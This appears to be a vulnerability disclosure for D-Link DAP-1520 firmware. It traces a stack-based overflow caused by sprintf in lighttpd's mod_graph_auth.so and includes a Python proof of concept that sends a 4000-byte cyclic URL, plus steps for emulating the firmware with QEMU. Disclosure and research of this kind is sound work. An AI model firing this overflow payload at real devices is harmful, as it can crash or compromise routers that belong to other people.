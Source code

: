 ## Overview

| Firmware Name | Firmware Version         | Download Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis

![f617fefb621827568fa9f28eda78fbe](./assets/f617fefb621827568fa9f28eda78fbe.png)the http_response_prepare function is called first .the function calls the plugins_call_handle_uri_clean function.

in lighttpd ,the plugins_call_handle_uri_clean function  calls the handle_uri_clean function.

![0af0b84ed6336479eac93cd9315bfc9](./assets/0af0b84ed6336479eac93cd9315bfc9.png)

it seems not too clear,we can use gdb to trace the process.

![a7e711d656b5dca64c424f0bb3dc14c](./assets/a7e711d656b5dca64c424f0bb3dc14c.png)

we can set a breakpoint at 0x41b898

![e06a504c57812082b1f2cb1124231a0](./assets/e06a504c57812082b1f2cb1124231a0.png)

keep going

<img src="./assets/90a07186d3e7d60b9996c742ca59ccc.png" alt="90a07186d3e7d60b9996c742ca59ccc" style="zoom:75%;" />

here calls the sprintf function

look the lib address

![4a92b06d2ad52667b14ff7ae2297d29](./assets/4a92b06d2ad52667b14ff7ae2297d29.png)

In mod_graph_auth.so file

![903fdc9f710ec8bc8476be2feef01d1](./assets/903fdc9f710ec8bc8476be2feef01d1.png)

e calls the sprintf function and copy the a2+324 to V50

![19a6d83c6a7bb1cab03c4d8084c7bae](./assets/19a6d83c6a7bb1cab03c4d8084c7bae-1743603669873-10.png)

here can lead a stack_base overflow

## POC

```py
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/{cyclic(4000).decode('utf-8')}"
print(requests.get(url).text)
```

## qemu-mipsel-static

```
cd etc/conf.d
sudo rm -f auth.conf
cp auth_base.conf auth.conf
cd ..
cd ..
cd tmp/
mkdir log
cd log/
mkdir lighttpd
cd ..
cd ..
cp $(which qemu-mipsel-static) .
sudo chroot ./ ./qemu-mipsel-static  sbin/lighttpd -D -f etc/lighttpd_base.conf
```

## Vulnerability Verification Screenshot

![49187be4f7ceb68c07de4b06cbcd5e6](./assets/49187be4f7ceb68c07de4b06cbcd5e6.png)

 ![fd5c00ff1efa26940c170127dd8fae8](./assets/fd5c00ff1efa26940c170127dd8fae8.png)